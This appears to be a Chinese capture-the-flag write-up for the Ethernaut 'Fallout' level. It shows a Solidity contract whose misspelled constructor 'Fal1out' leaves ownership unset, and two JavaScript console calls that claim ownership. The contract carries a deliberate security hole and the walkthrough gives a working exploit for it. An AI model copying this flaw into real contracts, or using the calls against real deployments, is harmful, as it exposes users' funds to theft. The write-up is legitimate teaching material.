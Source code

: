 # Fallout

> 获得以下合约的所有权来完成这一关.

## 源码

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Fallout {
  
  using SafeMath for uint256;
  mapping (address => uint) allocations;
  address payable public owner;


  // constructor 
  function Fal1out() public payable {
    owner = msg.sender;
    allocations[owner] = msg.value;
  }

  modifier onlyOwner {
	        require(
	            msg.sender == owner,
	            "caller is not the owner"
	        );
	        _;
	    }

  function allocate() public payable {
    allocations[msg.sender] = allocations[msg.sender].add(msg.value);
  }

  function sendAllocation(address payable allocator) public {
    require(allocations[allocator] > 0);
    allocator.transfer(allocations[allocator]);
  }

  function collectAllocations() public onlyOwner {
    msg.sender.transfer(address(this).balance);
  }

  function allocatorBalance(address allocator) public view returns (uint) {
    return allocations[allocator];
  }
}
```

## 攻击思路

此合约版本为0.6.0。此时合约的构造函数为合约的同名函数。最新版本0.8.0中，已使用constructor函数代替同名函数作为构造函数。

此合约的构造函数写错了，Fal1out != Fallout 。即合约部署后，并没有初始化owner。

```js
await contract.owner()
'0x0000000000000000000000000000000000000000'
```

所以只需要调用 Fal1out函数即得到owner权限

```js
// 调用时并没有发送ETH
await contract.Fal1out()

// 查询最新合约的owner
await contract.owner()

```

提交合约实例，完成目标。